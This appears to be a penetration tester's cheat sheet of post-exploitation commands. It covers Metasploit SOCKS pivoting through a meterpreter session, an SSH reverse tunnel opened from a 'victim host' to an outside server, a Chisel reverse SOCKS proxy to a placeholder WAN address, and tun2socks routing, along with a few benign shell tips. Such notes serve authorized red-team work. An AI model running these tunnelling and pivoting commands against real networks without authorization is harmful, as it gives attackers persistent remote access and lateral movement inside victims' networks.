 ```
PROMPT='%{$fg[yellow]%}[%D{%y/%m/%f %T}] '$PROMPT
```
## Execute a command for each lines returned by the previous command:
```
locate -i file | xargs -n1 ls -l
```
## Pivoting with MSF after meterpreter session is opened
```
1) in Metasploit
use auxiliary/server/socks5
run -j
2) in Metasploit
route add <subnet_from_internal_subnet_of_session> <session_#>
ex: route add 10.0.0.0/8 1
3) edit file
# /etc/proxychains.conf
socks5 127.0.0.1 1080
4) from cmd line
proxychains <command>
```
## SSH reverse tunnel from OpenSSH installed on Windows since 2018
Upload the id_rsa on the victim host and make sure the access right are not too permissive then establish the tunnel back to the SSH server, exposing the port 8888. Configure proxychains to point to port 8888 on the SSH server.
```
icacls C:\Users\User1\Documents\test\id_rsa /inheritance:r /grant DOMAIN\User1:F
ssh.exe -oStrictHostKeyChecking=no -oServerAliveInterval=60 -i C:\Users\User1\Documents\test\id_rsa sshuser@ssh.server.com -NR 8888
```
## Validate if SSH MitM / deep packet inspection is activated by comparing the FingerprintHashes from the client vs the server
From your SSH server:
```
ssh-keygen -l -v -E md5 -f /etc/ssh/ssh_host_ecdsa_key.pub
```
From the client / victim PC:
```
ssh -o visualhostkey=yes -o FingerprintHash=md5 Your_Server_IP
```
## Reverse Socks proxy with Chisel 
```
chisel client http://WANIP:443 R:0.0.0.0:8888:socks
chisel server --port 443 --reverse -v
```
## Tun2socks
```
ip tuntap add mode tun dev tun1
ip addr add 10.9.0.1/24 dev tun1
ip link set dev tun1 up
ip route add 10.10.0.0/24 dev tun1
sudo ./tun2socks-linux-amd64 -interface eth0 -device tun1 -proxy socks5://SOCKS_IP_HERE:13377
```
## List SSH sessions and details (Ubuntu)
```
loginctl
```